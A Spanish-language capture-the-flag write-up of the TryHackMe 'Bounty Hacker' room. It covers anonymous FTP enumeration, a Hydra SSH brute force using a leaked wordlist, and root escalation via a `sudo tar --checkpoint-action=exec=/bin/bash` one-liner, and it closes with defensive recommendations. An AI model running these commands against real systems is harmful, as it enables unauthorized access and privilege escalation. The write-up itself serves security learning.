


# Bounty Hacker — TryHackMe (Fácil)

**Plataforma:** TryHackMe · **Categoría:** Reconocimiento / FTP / Fuerza bruta / PrivEsc · **Herramientas:** Nmap, ftp, Hydra, SSH, tar

---

## Resumen

Máquina Linux con FTP, SSH y HTTP. El servidor FTP permite acceso anónimo y expone dos archivos: una lista de tareas firmada con un nombre de usuario y una wordlist de contraseñas. Con esos datos se realiza fuerza bruta contra SSH con Hydra. La escalada de privilegios se logra mediante un permiso sudo mal configurado sobre `tar`, que permite ejecutar comandos arbitrarios como root.

---

## Habilidades demostradas

- Escaneo de puertos y detección de servicios con Nmap (`-sC -sV`)
- Identificación de FTP anónimo desde los scripts de Nmap
- Acceso FTP anónimo y descarga de archivos
- Fuerza bruta de credenciales SSH con Hydra (`-l`, `-P`)
- Escalada de privilegios mediante `sudo tar` con `--checkpoint-action` (GTFOBins)

---

## 1. Reconocimiento

```bash
nmap -sC -sV <IP>
```

| Puerto | Servicio | Versión |
|--------|----------|---------|
| 21     | FTP      | vsftpd 3.0.5 |
| 22     | SSH      | OpenSSH 8.2p1 Ubuntu |
| 80     | HTTP     | Apache 2.4.41 (Ubuntu) |

Los scripts de Nmap (`-sC`) revelaron directamente el detalle crítico: `ftp-anon: Anonymous FTP login allowed`. No fue necesario probarlo manualmente — Nmap lo detectó solo.

---

## 2. Enumeración — FTP anónimo

```bash
ftp <IP>
# Name: anonymous
# Password: (Enter)
```

```bash
ls
get task.txt
get locks.txt
bye
```

Dos archivos:

- **`task.txt`**: lista de tareas firmada al final con un nombre de usuario — el autor de la lista.
- **`locks.txt`**: wordlist de 26 contraseñas con variaciones de mayúsculas, números y símbolos. Una wordlist personalizada enfocada en un patrón específico, más pequeña que rockyou.txt pero diseñada para este objetivo.

---

## 3. Explotación / Acceso inicial

Con el usuario de `task.txt` y la wordlist de `locks.txt`, fuerza bruta contra SSH:

```bash
hydra -l lin -P locks.txt ssh://<IP>
```

| Opción | Significado |
|--------|-------------|
| `-l lin` | Usuario único (minúscula = un solo usuario) |
| `-P locks.txt` | Lista de contraseñas (mayúscula = wordlist) |
| `ssh://<IP>` | Servicio y dirección objetivo |



Hydra probó las 26 contraseñas en segundos y devolvió las credenciales válidas.

Acceso SSH:

```bash
ssh lin@<IP>
```

La flag de usuario estaba en `~/Desktop/user.txt`.

---

## 4. Escalada de privilegios

```bash
sudo -l
```

Resultado: `(root) /bin/tar`

El usuario puede ejecutar `tar` como root sin contraseña. `tar` incluye las opciones `--checkpoint` y `--checkpoint-action`, diseñadas para ejecutar comandos durante el procesamiento de archivos. Con sudo, esos comandos heredan privilegios de root:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

| Parte | Significado |
|-------|-------------|
| `-cf /dev/null /dev/null` | Operación ficticia: algo que tar procese inmediatamente |
| `--checkpoint=1` | Ejecutar la acción en cada archivo procesado |
| `--checkpoint-action=exec=/bin/bash` | La acción: lanzar bash, que hereda los privilegios de root |



Root flag en `/root/root.txt`.

---

## Lo que probé y no funcionó

- **Primer intento de tar con typo**: ejecuté el comando con `/bin/b` en lugar de `/bin/bash` — el comando quedó cortado al escribirlo. Falló con `/bin/sh: /bin/b: not found`. La segunda ejecución con la ruta completa funcionó.
- **Por qué SSH y no FTP o HTTP**: el nombre en `task.txt` era un usuario corto de sistema Linux, lo que apunta a SSH como servicio de acceso. FTP ya estaba abierto de forma anónima y HTTP no acepta credenciales de sistema.

---

## Impacto

FTP anónimo expuso directamente el nombre de usuario y una wordlist específica para él — información suficiente para comprometer SSH sin ningún conocimiento previo del sistema. Desde SSH, la escalada a root toma una línea de comando. No se requiere ninguna CVE, código personalizado ni interacción del usuario.

---

## Perspectiva defensiva

- **Deshabilitar FTP anónimo**: si no es estrictamente necesario, eliminar. Si lo es, restringir a una carpeta sin archivos sensibles y sin información de usuarios o contraseñas.
- **No almacenar wordlists ni datos de usuarios en servidores accesibles**: `locks.txt` era esencialmente la clave del sistema expuesta públicamente.
- **Principio de mínimo privilegio en sudo**: `tar` con `--checkpoint-action` es escalada directa a root (GTFOBins). Antes de otorgar sudo sobre cualquier binario, revisar si aparece en GTFOBins.
- **Contraseñas robustas y únicas**: una wordlist de 26 entradas basada en variaciones de una misma palabra fue suficiente. Una contraseña generada aleatoriamente no aparece en ninguna wordlist.

---

## Lecciones aprendidas

- `-sC` en Nmap corre scripts de reconocimiento automáticamente — en este caso detectó FTP anónimo sin necesidad de probarlo a mano.
- La distinción `-l`/`-L` y `-p`/`-P` en Hydra es fundamental: minúscula = valor único, mayúscula = lista.
- La wordlist no tiene que ser rockyou.txt. Una lista de 26 entradas personalizada para el objetivo es más eficiente y rápida que millones de entradas genéricas.
- `tar`, como `vim` en salas anteriores, permite escalar privilegios cuando tiene sudo. GTFOBins cubre decenas de binarios con el mismo patrón — siempre consultarlo antes de buscar técnicas más complejas.

---

## Referencias

- [GTFOBins — tar](https://gtfobins.github.io/gtfobins/tar/)
- [Hydra](https://github.com/vanhauser-thc/thc-hydra)
- [TryHackMe — Bounty Hacker](https://tryhackme.com/room/cowboyhacker)